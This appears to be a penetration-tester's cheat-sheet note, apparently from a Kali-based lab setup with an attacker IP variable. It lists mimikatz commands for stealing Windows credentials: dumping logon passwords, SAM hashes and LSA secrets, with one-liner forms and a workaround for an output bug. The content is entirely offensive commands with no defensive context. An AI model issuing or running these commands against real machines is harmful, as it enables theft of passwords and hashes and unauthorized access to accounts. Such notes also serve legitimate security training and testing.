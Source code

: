 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Run mimikatz:
```
.\mimikatz.exe
```
```
privilege::debug
```
```
sekurlsa::logonpasswords
```
```
.\mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit"
```

Sam dump:
```
token::elevate
```
```
lsa::samdump
```

Dump secrets:
```
lsadump::secrets
```
```
.\mimikatz.exe "privilege::debug" "log" "lsadump::secrets" "exit"
```

Workaround for infinite printing of "#mimikatz" error:
Pass all commands as arguments
```
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam" "exit"
```